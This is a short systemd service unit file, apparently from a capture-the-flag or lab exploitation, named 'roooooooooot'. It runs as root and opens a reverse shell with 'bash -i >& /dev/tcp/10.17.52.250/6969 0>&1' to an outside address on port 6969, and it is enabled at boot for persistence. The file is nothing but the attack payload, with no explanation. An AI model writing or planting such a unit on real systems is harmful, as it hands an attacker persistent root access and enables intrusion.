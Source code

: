 [Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i  >&   /dev/tcp/10.17.52.250/6969 0>&1'

[Install]
WantedBy=multi-user.target
